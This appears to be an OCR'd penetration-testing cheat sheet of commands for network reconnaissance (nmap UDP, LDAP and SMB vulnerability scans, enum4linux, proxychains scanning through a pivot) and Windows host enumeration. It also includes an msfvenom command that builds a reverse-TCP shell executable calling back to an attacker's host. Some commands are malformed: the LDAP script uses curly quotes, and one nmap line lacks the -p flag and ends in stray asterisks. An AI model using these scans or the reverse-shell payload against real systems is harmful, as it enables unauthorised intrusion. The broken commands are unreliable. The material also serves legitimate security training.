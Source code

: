 `sudo nmap -sU -sV -oN udpscan.txt --version-intensity 0 -F -n $ip`

if SNMP is open try SNMP walk


### **Enum4linux**

`enum4linux <IP>`

### LDAP

`nmap -sV --script “ldap* and not brute” <IP>`

### Scanning through a Pivot

`sudo proxychains nmap -vvv -sT --top-ports=60 -Pn -n $ip`

Scanning for win-rm and mssql

`proxychains nmap -vvv -sT -p 5985,5986,1433 -Pn -n $ip`

If its real down bad and slow

`proxychains nmap -sT 21,22,23,25,53,80,88,135,161,389,445,8000,8080,3389,5985,3306,3307,1433,5432 -iL <Filename>.txt <IP>`****

### Scanning for Vulnerabilities

smb scan:

`nmap -T5 -sV --script 'smb-vuln*' <IP>`

Very rare but just a common vuln scan:

`nmap -T5 -sU --top-ports 10000 <IP>`

# Windows Commands Reminders and Priv esc

msfvenom quick shell:  

`msfvenom -p windows/shell/reverse_tcp LHOST=<hostIP> LPORT=<port> -f exe -o revshell.exe` 

### Usefull commands and Enumeration:

CMD

`whoami /groups`

`netstat -ano`

To list all active network connections we can use netstat11 with the argument -a to display all active TCP connections as well as TCP and UDP ports, -n to disable name resolution, and -o to show the process ID for each connection (Powershell)

`Get-LocalUser`

`Get-LocalGroup` or `Get-LocalGroupMember <group-name>`

`route print`
